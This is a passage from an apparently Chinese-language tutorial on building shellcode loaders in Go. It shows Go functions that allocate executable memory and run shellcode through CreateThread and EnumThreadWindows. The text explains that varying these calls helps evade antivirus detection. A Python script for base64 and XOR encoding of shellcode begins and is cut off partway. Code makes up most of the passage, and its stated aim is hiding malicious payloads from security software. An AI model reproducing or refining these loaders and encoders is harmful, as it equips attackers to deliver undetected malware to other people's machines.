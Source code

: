 ## CreateThread

除了通过 SyscallN 调用 Shellcode 还可以通过 CreateThread API 来调用 Shellcode，实现如下

```bash
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    fCreateThread, _        := mKernel32.FindProc("CreateThread")
    fWaitForSingleObject, _ := mKernel32.FindProc("WaitForSingleObject")

    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    TtdAddr, _, _ := fCreateThread.Call(0, 0, Ptr1, 0, 0, 0)
    fWaitForSingleObject.Call(TtdAddr, 0xFFFFFFFF)
}
```

## EnumThreadWindows

也可以使用 `EnumThreadWindows` API 来调用 Shellcode

```bash
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    mUser32, _ := syscall.LoadDLL("user32.dll")

    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    fenumThreadWindows, _ := mUser32.FindProc("EnumThreadWindows")
    fenumThreadWindows.Call(0, Ptr1, 0)
}
```

有了更多的 API 调用 Shellcode 就可以一定程度上避免被杀软识别为恶意软件。

除了多样化的 API 调用 Shellcode 还需要对 Shellcode 进行编码，作为调试阶段，可以使用 Python 来制作 base64+ 多字节 xor 转换的 Shellcode。代码如下

```bash
import os
import sys
import argparse
import random
import string
import base64

def generate_random_string(length):
    characters = string.ascii_letters + string.digits
    random.seed()
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string

def xor_encrypt(plaintext, key):
    ciphertext = bytearray()
    key_length = len(key)
    for i, byte in enumerate(plaintext):
        key_byte = key[i % key_length]
        encrypted_byte = byte ^ key_byte
```